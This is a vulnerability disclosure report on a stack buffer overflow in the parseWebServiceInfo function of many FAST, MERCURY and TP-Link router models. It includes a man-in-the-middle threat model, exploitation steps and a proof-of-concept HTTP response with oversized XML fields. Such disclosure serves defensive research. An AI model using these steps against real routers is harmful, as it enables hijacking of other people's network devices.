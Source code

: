 # parseWebServiceInfo Vulnerability Report

FAST,MERCURY and TP-Link routers have a stack overflow issue in `parseWebServiceInfo` function.

Local users could get remote code execution, this vulnerability currently affects three types of routers:

- FW, FAC, FR series of FAST router, including FW325R, FAC1203R, FW326R, FR100P-AC, FAC1900R, FAC1200R, etc ;
- D, M, MW series of MERCURY router, including D121G, MW310R, M6G, MW313R, D12A, MW325R, D196G, MW300R, D12, MW315R, MW351R, D126, M9G, D19, MW326R, MR100P-AC, D12B, etc ;
- WDR, WR, R, WA series of TP-Link router, including TL-WDR5620, TL-WDR5650, TL-WR842N, TL-WDR7660, TL-WDR7620, TL-R470P-AC, TL-WDR7661, TL-WDR7650, TL-WDR7651, TL-WA933RE, etc.

It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

**Threat model**: An attacker can intercept the traffic between router and Intenet. That is, an attacker can perform a man-in-the-middle attack on the router.

This vulnerability happen when `parseWebServiceInfo`  handle data from cloud server by using `strncpy`.

1. Attackers intercept the response from cloud server.
2. Then attackers send a malicious response to the router. The `GetMiscInfoResult` , `ClientIP` , `UserType` fields in this malicious response are filled a long string.
3. `parseWebServiceInfo`  get these fileds by using `strstr`. However, the length is not checked.
4. Finally, whole string of these fields are copyed to the stack by `strncpy` and lead to a stack buffer overflow to execute arbitrary code.
- sink point 1（`GetMiscInfoResult`  field）:

![1](photos/1.png)
   
- sink point 2（`ClientIP` field）:

![2](photos/2.png)  
    
- sink point 3（`UserType`field）:

![3](photos/3.png)    
    
    

## PoC

```
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 200
Connection: close
Cache-control: no-cache

<GetMiscInfoResult>1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111</GetMiscInfoResult>
<ClientIP>1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111</ClientIP>
<UserType>1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111</UserType>
```

